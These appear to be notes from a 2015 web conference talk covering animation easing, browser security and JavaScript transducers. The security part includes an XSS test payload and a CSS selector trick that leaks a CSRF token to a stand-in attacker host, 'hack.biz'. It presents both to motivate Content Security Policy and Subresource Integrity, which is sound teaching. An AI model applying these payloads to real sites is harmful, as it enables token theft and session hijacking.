





Barcelona
4th-5th September 2015
Lukáš Ďopan, David Pech


Psychology
Animation can be used as a cognitive aid
For example reducing explanatory text by an animation
Abstractions
Basics
Easing functions
$$valueAtTime = {(end - start) \times easingFunction([0-1]) + start}$$Change in property times (some float) plus beginning value
var run = function () {
time = new Date().getTime() - startTime;
div.style.left=(endX - startX) *
easingFunction([0-1]) + startX+"px";
if(time / duration < 1 ) requestAnimationFrame(run);
}
Security
- Web developers != Security Researchers
- Web security is hard
- For example:
Content Injection
- Script, Images, PDFs...
- Detect malicious scripts?
<ul>
<li><script>alert('xss')</script></li>
</ul>

White-space attack
- Evaluation of 8-bit characters
|  |  |
Can not reliably detect malicious scripts
CSS Hack
- Check for change of color of a link
- Not Visited vs Visited
- First fixed in Gecko:
getComputedStyle(Link) === getComputedStyle(VisitedLink)
Timing attacks
- Security by inaccuracy
- Previous example's fix can be worked around by checking the rendering time
Protect against all JS, Script tag injections, CSS hacks and all is good?
CSRF Cookie attack
<form>
<input type="hidden" class="csrf" value="0003">
...
</form>
Prevents unwanted uses of forms in iframes
We can not sneak in any JS but we are allowed to style things with some custom CSS
input.crsf[value="0001"] {
background-image: url(//hack.biz/0001.png);
}
Enumerate multiple times
input.crsf[value="0001"] {
background-image: url(//hack.biz/0001.png);
}
input.crsf[value="0002"] {
background-image: url(//hack.biz/0002.png);
}
input.crsf[value="0003"] {
background-image: url(//hack.biz/0003.png);
}
Enumerate e.g. 200mil. times and you have 200mil. attempts to figure out the crsf token
Trying to cover everything is not effective
CSP - Content Security Policy
Content-Security-Policy:
default-src ...;
script-src ...;
object-src ...;
style-src ...;
img-src ...;
media-src ...;
frame-src ...;
font-src ...;
connect-src ...;
sandbox ...;
report-uri https://some.url/someone-is-hacking
CSP - Content Security Policy
- By default locks everything
- By default
- Disallow inline JS, CSS
- Disalow Eval
- Disallow Cross Domain JS, CSS, Fonts, Imgs...
- Concept of white listing
Integration
SRI - Sub Resource Integrity
<script src="https://analytics-r-us.com/v1.0/include.js"
integrity = "ni:///sha-256;SDfwewFAE...wefjijfE?ct=application/javascript"></script>
- Server sends a hash
- Browser checks to make sure it gets the same answer
//Stepper
sum = function(result, item) {
return result + item;
};
mult = function(result, item) {
return result * item;
};
var input = [2,3,4];
// 10 (=1+2+3+4)
result = input.reduce(sum, 1);
//24 (=1*2*3*4)
result = input.reduce(mult, 1);
Transformer :: {
init :: () -> I // initial value
step :: Stepper //transformation
result :: I -> R //build the result
}
result takes last computed value and applies final transformation you want
//Transformer
var one = function() {return 1;};
var identity = function(result) {return result;};
transformer = function(init, stepper, result) {
return {
//start with init value
init: init,
//Input one item at a time,
//passing each result to next iteration
//using reducing function
stepper: stepper
//Output last computed result
result: result || identity
}
};
input = [2, 3, 4];
xf = transformer(one, sum);
output = input.reduce(xf.step, xf.init());
//output = 10 (=1+2+3+4)
xf = transformer(one, mult);
output = input.reduce(xf.step, xf.init());
//output = 24 (=1*2*3*4)
result takes last computed value and applies final transformation you want
//Reduce
wrap = function(stepperOrTransformer) {
if (typeof stepperOtTransformer === 'function') {
//it was stepper -> return transformer
return transformer (
//doesn't support initialization -> reduce will provide init value
function() {
throw new Error('init not supported');
},
//step: (stepper, function)
stepperOrTransformer
//result: (compute final result)
identity
);
} else {
//transformer -> just return it
return stepperOrTransformer;
}
};
//(we expect input to support the reduce method..arrays do)
reduce = function(xf, init, input) {
xf = wrap(xf);
var result = input.reduce(xf.step, init);
return xf.result(result);
}
//now reduce also accepts reducing function or transformer
input = [2,3,4];
output = reduce(sum, 1, input); //10(=1+2+3+4)
output = reduce(mult, 1, input); //24(=1*2*3*4)
output = reduce(wrap(sum), 1, input); //10(=1+2+3+4)
output = reduce(wrap(mult), 1, input); //24(=1*2*3*4)
//Reduce can also copy from array to another
append = function(result, item) {
result.push(item);
return result;
};
output = reduce(append, [], input); //[2, 3, 4]
reduce is the most general transformation that can exists
Transducer :: TransformerOrStepper -> Transformer
transduce:: (
Transducer //transformation
Stepper //result builder
I? //init value
Iterator //intput sequence
) -> R //result
//Transducer (takes 1 and combine it with append stepper)
plus1 = function(item) {
return item + 1;
};
//out 1st transformer (it adds 1)
transducerPlus1 = function(xf) {
return transformer(
//init
function() {
return xf.init();
},
//step
function(result, item) {
var plus1ed = plus1(item);
return xf.step(result, plus1ed);
},
//result
function(result) {
return xf.result(result);
}
);
};
xf = transducerPlus1(wrap(append));
//input [2,3,4]
result = xf.step([], 2); //[3] (append([], 2+1))
result = xf.step(result, 3) //[3,4] (=append([3], 3+1))
result = xf.step(result, 4); //[3,4,5]
output = xf.result(result);
xf = transducerPlus1(wrap(sum));
result = xf.step(0,2) //3(=sum(0, 2+1))
result = xf.step(result, 3) //7
result = xf.step(result, 4) //12
output = xf.result(result);
//Transducer: map
map = function(f) {
//returns the transducer...
return function(xf) {
//the transducer builds a transformer..
return transformer (
//init:
function() {
return xf.init();
},
//step:
function(result, item) {
var mapped = f(item);
return xf.step(result, mapped);
},
//result:
function(result) {
return xf.result(result);
}
);
}
};
input = [2,3,4];
output = transduce(map(plus1), append, [], input);
// [3,4,5] (=[2+1, 3+1, 4+1])
output = transduce(map(plus1), sum, 0, input);
//12 = (= 0 + 2+1 + 3+1 + 4+1)